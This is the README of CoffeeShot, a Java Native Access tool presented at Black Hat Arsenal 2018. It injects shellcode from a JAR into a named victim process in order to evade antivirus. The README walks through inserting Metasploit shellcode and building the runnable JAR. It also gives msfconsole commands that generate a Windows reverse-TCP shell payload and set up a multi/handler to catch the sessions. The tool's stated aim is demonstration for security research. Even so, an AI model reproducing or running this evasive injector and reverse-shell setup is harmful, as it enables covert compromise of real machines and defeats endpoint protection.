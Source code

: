 ![CoffeeShot](https://i.imgur.com/zH0Yvis.png)

# :coffee: CoffeeShot: Avoid Detection with Memory Injection :syringe:
[![Arsenal](https://github.com/toolswatch/badges/blob/master/arsenal/usa/2018.svg)](https://www.toolswatch.org/2018/05/black-hat-arsenal-usa-2018-the-w0w-lineup/)

CoffeeShot is a framework which uses Java Native Access (aka JNA) and takes it to another level by looking for a victim process and once it finds it - a shellcode will be injected directly from the JAR file (meaning that CoffeeShot doesn't drop any malicious shellcode on the disk).

Java Native Access is an external Java library that allows you to call Windows APIs directly from your JAR file.

CoffeeShot is designed for demonstrating how Java-based malware can bypass most of the anti-virus vendors.

## Prerequisites:
* Eclipse (or any other IDE that supports Java)
* [Java Native Access](https://github.com/java-native-access/jna)
* Kali Linux with Metasploit

## Getting Started
1. Clone the project.
2. Import to Eclipse.
3. Add JNA and JNA-Platform libraries.
4. Insert your generated shellcode inside CoffeeShot project.
5. Build the Project.
6. Export to a runnable JAR file.

## Setup
### Add JNA and JNA-Platform libraries
- Start Eclipse
- In the project explorer, right-click on CoffeeShot folder, and select "Properties"
- Select "Java Build Path" on the left, and then the "Libraries" tab. Now, click the "Add External JARS..." button
- Locate and select "jna-4.5.0.jar" and "jna-platform-4.5.0.jar" files you downloaded from the [JNA](https://github.com/java-native-access/jna) github, and then click "Open"
- Finally, click "OK" to close the dialog box. You will know that everything went ok if, when you open your project folder, you see an item called "Referenced Libraries", and upon expanding this item, you see the packages "jna-4.5.0.jar" and "jna-platform-4.5.0.jar" listed.

## Build CoffeeShot with your shellCode
```
Copy our generated shellCode from Metasploit.
Paste\Insert the shellCode inside the CoffeeShot project, e.g.: "byte[] shellcode = {(byte) 0xfc, (byte) 0xe8...};"
Build the project
Export to runnable JAR
Execute CoffeeShot by:
> Java -jar CoffeeShot.jar [processName]
> processName example: notepad++.exe
```

## Demo
For demo purpose, we used Metasploit with shell reverse tcp

### Create a Java shellcode that is suitable for CoffeeShot
```
msfconsole
use payload/windows/shell_reverse_tcp
set LHOST x.x.x.x
set LPORT xxxx
generate -t java
```

### Create C2 for our shellcode
```
msfconsole
use exploit/multi/handler
set PAYLOAD windows/shell_reverse_tcp
set LHOST
set LPORT
set ExitOnSession false
exploit -j
sessions
sessions -i 1
```

[![CoffeeShot Demo](https://i.imgur.com/nT0ZYl5.png)](https://youtu.be/MVwkjWB-Nx4)

## References
[Minerva Labs Blog Post](https://youtu.be/FgcPJNQqhZ0)

## Authors
* **Asaf Aprozper (3pun0x)** - *Creator* - [Twitter](https://twitter.com/3pun0x) - [GitHub](https://github.com/3pun0x) 

## License
This project is licensed under the GPLv3 License - see the [LICENSE.md](https://www.gnu.org/licenses/gpl.html) file for details
Copyright © 2018 Minerva Labs CoffeeShot.  All rights reserved.

This program is free software: you can redistribute it and/or modify
it under the terms of the GNU General Public License as published by
the Free Software Foundation, either version 3 of the License, or
at your option) any later version.

This program is distributed in the hope that it will be useful,
but WITHOUT ANY WARRANTY; without even the implied warranty of
MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.  See the
GNU General Public License for more details.
